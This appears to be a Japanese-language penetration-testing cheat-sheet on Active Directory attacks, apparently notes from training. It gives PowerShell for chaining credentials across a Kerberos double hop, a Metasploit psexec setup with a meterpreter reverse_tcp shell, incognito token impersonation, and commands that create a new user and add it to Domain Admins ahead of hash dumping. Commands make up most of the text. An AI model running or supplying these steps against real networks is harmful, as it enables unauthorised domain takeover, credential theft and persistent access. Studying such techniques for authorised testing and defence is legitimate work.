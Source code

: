 ### Kerberos ダブルホップ問題の回避
#### Invoke-Command (PowerShell)
PSCredentialオブジェクトを使用して明示的に認証情報を渡し、2ホップ先のリソースにアクセス
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
Invoke-Command -ComputerName <HOP1_TARGET> -ScriptBlock { Invoke-Command -ComputerName <HOP2_TARGET> -ScriptBlock { whoami } -Credential $using:Cred } -Credential $Cred
```

## トークンなりすまし攻撃


仕組み
- ユーザーがログオンすると、**アクセストークン**が発行される
- 他のプロセスやサービスがそのユーザーのトークンを「開いたまま持っている」と、それを**借りて（impersonate）なりすまし**ができる
### Metasploit
まずは、metapreterシェルを設定する ( msfconsole内
```sh
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
# RHOSTは、AD参加ホストであればなんでも。DC以外でも良い。
set RHOSTS <AD参加ホストIP>
set smbuser <ユーザーネーム>
set smbpass <パスワード>
set smbdomain <ドメイン名>
set LHOST 
```

以下 meterpreter内で実行
上で、シェルが確立できた後 、なりすましをするためのモジュールをロードする
```sh
meterpreter > load incognito
```

ユーザー（user）に絞って表示、なりすまし可能なトークンを列挙する
- ここまでで、どのアカウントになり済ますべきか、知っているべき
```sh
meterpreter > list_tokens -u
```

なりすますユーザーを指定し、なりすます
 - この時、スラッシュを二つつける
	 - 例 : MARVEL\\fcastle
```sh
meterpreter > impersonate_token <なりすますユーザー名>
meterpreter > shell
whoami
```

高い権限でなりすましができた後に、その権限でユーザーを新しく作成する
そして、作成したアカウントで、もう一度`secretsdump.py`などでハッシュをダンプすると、全てのハッシュを取得できる
```windows shell
net user /add <ユーザーネーム> <パスワード> /domain
net group "Domain Admins" <ユーザーネーム> /ADD /DOMAIN
```
